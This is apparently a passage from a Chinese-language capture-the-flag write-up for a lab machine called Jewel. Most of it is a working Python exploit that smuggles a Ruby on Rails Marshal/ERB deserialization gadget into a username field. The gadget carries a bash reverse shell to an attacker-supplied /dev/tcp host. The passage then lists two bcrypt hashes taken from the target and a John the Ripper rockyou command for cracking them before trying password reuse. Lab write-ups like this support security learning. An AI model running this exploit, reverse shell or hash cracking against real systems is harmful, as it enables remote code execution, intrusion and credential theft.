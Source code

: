 ```python
resp = s.post(URL + '/login', data=data)

rx = r'href="/users/(.*)"'
user_id = re.search(rx,resp.text).group(1)

# rev shell
rev = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(sys.argv[2], sys.argv[3])
payload = '\x04\x08o\x3A\x40ActiveSupport\x3A\x3ADeprecation\x3A\x3ADeprecatedInstanceVariableProxy'
payload += '\x09\x3A\x0E\x40instanceo\x3A\x08ERB\x08\x3A\x09\x40srcI\x22'
payload += '{}\x60{}\x60'.format(chr(len(rev)+7), rev)
payload += '\x06\x3A\x06ET\x3A\x0E\x40filenameI\x22\x061\x06\x3B\x09T\x3A\x0C\x40linenoi\x06\x3A\x0C\x40method\x3A'
payload += '\x0Bresult\x3A\x09\x40varI\x22\x0C\x40result\x06\x3B\x09T\x3A\x10\x40deprecatorIu\x3A\x1F'
payload += 'ActiveSupport\x3A\x3ADeprecation\x00\x06\x3B\x09T'

data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['_method'] = 'patch'
data['user[username]'] = payload
data['commit'] = 'Update User'
s.post(URL + '/users/' + user_id, data=data)
s.post(URL + '/users/' + user_id, data=data)

s.get(URL + '/articles')
```

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-42-03.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-00-05.png)

![]({{ site.url }}/assets/Jewel_211.assets/20201129104501677_13249.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-45-36.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-46-52.png)

```bash
$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
```

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-54-08.png)

可以sudo -l 也就是这串hash应该有破解的价值。可以破解出之后尝试密码复用

`john --wordlist=/usr/share/wordlists/rockyou.txt passwd_sql.txt`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-57-43.png)

